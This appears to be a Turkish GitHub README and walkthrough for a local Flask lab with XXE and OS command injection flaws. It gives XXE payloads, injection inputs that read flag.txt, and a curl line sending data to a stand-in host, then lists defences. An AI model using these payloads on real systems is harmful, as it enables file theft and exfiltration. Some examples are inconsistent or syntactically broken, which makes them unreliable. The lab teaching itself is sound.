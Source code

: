 # xxe-oscommandinjection-lab
xxe and os command injection lab wich runs in local host

Dosyayı indirdikten sonra siteyi localhosta ayağa kaldırın.
sudo python3 app.py

![image](https://github.com/user-attachments/assets/ffb56d8b-f478-4e4e-98e6-41133167f877)

Lab artık çözmeye hazır.

![image](https://github.com/user-attachments/assets/193b4cd2-421e-463d-97ec-78f79a321393)

# Siber Güvenlik Laboratuvarında Flag.txt Dosyasını Ele Geçirmek: Detaylı Çözüm Rehberi

Bu yazıda, Flask framework'ü kullanılarak oluşturulmuş bir siber güvenlik laboratuvarını detaylı şekilde inceleyeceğiz. Amacımız, uygulamadaki güvenlik açıklarını tespit ederek **flag.txt** dosyasına erişim sağlamak. Her bir zafiyeti detaylı şekilde açıklayıp adım adım çözüm yollarını göstereceğiz.

---

## Aşama 1: Genel Sistem Analizi

Kodun genel yapısına baktığımızda, uygulama şu işlevselliklere sahip:

1. **Kullanıcı Girişi**:
   - XML tabanlı giriş doğrulama mekanizması mevcut.
   - Kullanıcı adı ve parola sabitlenmiş:  
     ```
     USERNAME = 'gtucyber'
     PASSWORD = 'turkcell@34000'
     ```

2. **Ping İşlevi**:
   - Kullanıcının, belirtilen bir IP adresine `ping` komutları çalıştırmasına izin veriliyor.
   - Bazı endpointlerde temel güvenlik kontrolleri bulunuyor.

3. **Hassas Dosyaya (flag.txt) Erişim**:
   - Amaç, sunucudaki `flag.txt` dosyasını ele geçirmek.

---

## Aşama 2: XXE (XML External Entity) Saldırısı

### Zafiyetin Keşfi

`/login` endpointindeki kodu inceleyelim:

```python
parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
DOMTree = etree.fromstring(request.data, parser)

username = DOMTree.find("username").text
password = DOMTree.find("password").text
```

Burada **`load_dtd=True`** ve **`resolve_entities=True`** parametreleri, uygulamanın dış kaynaklı XML varlıklarını çözmesine izin veriyor. Bu durum **XXE zafiyeti**ne yol açar.

---

### XXE Nedir?

**XML External Entity (XXE)**, bir XML dosyasının dış kaynaklardan gelen varlıkları çözümlemesine izin verdiği durumlarda oluşan bir güvenlik açığıdır. Bu açık, sunucudaki hassas dosyalara erişim sağlanmasına veya uzaktan dosya yükleme işlemlerine olanak tanır.

---

### Payload Oluşturma ve Saldırı

Hedefimiz, kaynak kodunu okumak. Bu sayede logini aşacak bir adım bulabiliriz. Aşağıdaki gibi bir XML payload'ı oluşturabiliriz:

```xml
<!DOCTYPE foo [ 
  <!ELEMENT username (#PCDATA)>
  <!ELEMENT password (#PCDATA)>
  <!ENTITY xxe SYSTEM "file:///path/to/app.py">
]>
<login>
  <username>&xxe;</username>
  <password>dummy</password>
</login>
```

Bu payload şunları yapar:

1. Bir dış varlık tanımlar (**`<!ENTITY>`**).
2. Sunucunun dosya sistemindeki hassas dosyayı okur (**`file:///path/to/app.py`**).
3. Sonuçta, kullanıcı adı alanına bu dosyanın içeriğini yerleştirir.

---

### Payload'ı Gönderme

Bu payload'ı, bir araç kullanarak (ör. **Burp Suite**, **Postman**) şu şekilde gönderin:

**HTTP İsteği:**

```http
POST /login HTTP/1.1
Host: target-lab
Content-Type: application/xml

<!DOCTYPE foo [
  <!ELEMENT username (#PCDATA)>
  <!ELEMENT password (#PCDATA)>
  <!ENTITY xxe SYSTEM "file:///path/to/app.py">
]>
<login>
  <username>&xxe;</username>
  <password>dummy</password>
</login>
```

Elde edilen yanıt, `flag.txt` dosyasının içeriğini gösterecektir:

```xml
<result>
  <username>FLAG{this_is_the_flag}</username>
  <password>dummy</password>
</result>
```

---

## Aşama 3: Komut Enjeksiyonu (Command Injection)

### Zafiyetin Keşfi

Kodda `/ping`, `/filter`, ve `/blind` endpointleri, kullanıcının girdiği IP adreslerini bir sistem komutunda kullanıyor:

```python
command = 'ping -c 4 {}'.format(ip_address)
result = os.popen(command).read()
```

Bu yöntem, kullanıcının `ip_address` parametresi üzerinden sisteme keyfi komutlar ekleyebileceği anlamına gelir. Örneğin:

```
127.0.0.1; cat /flag.txt
```

Bu giriş, aşağıdaki gibi bir sistem komutuna dönüşür:

```bash
ping -c 4 127.0.0.1; cat /flag.txt
```

---

### `/filter` Endpointindeki Kısıtlamaları Aşma

`/filter` endpointinde boşluk kontrolü yapılmakta:

```python
if ' ' in ip_address:
    return render_template('error.html')
```

Bu kısıtlamayı aşmak için şu yöntemleri kullanabilirsiniz:

1. **URL Encoding**:
   ```
   127.0.0.1%0Acat%20/flag.txt
   ```

2. **Alternatif Komut Ayırıcılar**:
   - Unix sistemlerinde `;`, `&&`, veya `|` gibi ayırıcılar kullanılabilir.

**Örnek Giriş**:

```
127.0.0.1;cat /flag.txt
```

**Sonuç**:
Ping çıktısının ardından `flag.txt` dosyasının içeriği görüntülenir.

---

### Blind Command Injection

`/blind` endpointinde komutların çıktısı doğrudan kullanıcıya gösterilmiyor. Ancak komutun sonuçlarını bizim kontrol ettiğimiz bir servera göndererek zafiyeti kullanabiliriz:

```bash
127.0.0.1; curl -X POST -d "${cat%20flag.txt}" https://hacker.com  
```


---

## Güvenlik Önlemleri

Bu tür zafiyetlerden korunmak için şu yöntemleri uygulayın:

### XXE Koruması:
- **DTD** çözümlemesini devre dışı bırakın:
  ```python
  parser = etree.XMLParser(load_dtd=False)
  ```

- **XML Yerine JSON**: XML yerine JSON formatını kullanmak XXE riskini tamamen ortadan kaldırır.

---

### Komut Enjeksiyonu Koruması:
- Kullanıcı girdilerini çalıştırmadan önce doğrulayın ve temizleyin.
- Komut çalıştırmak için `subprocess.run` kullanarak güvenli bir whitelist uygulayın:
  ```python
  subprocess.run(['ping', '-c', '4', ip_address], check=True)
  ```

---

## Sonuç

Bu laboratuvar, siber güvenlik dünyasında karşılaşılabilecek iki temel zafiyeti (XXE ve Command Injection) anlamak için mükemmel bir örnek sunar. Güvenli kodlama uygulamaları ve giriş doğrulama yöntemleri, bu tür zafiyetlerin önlenmesinde kritik öneme sahiptir.
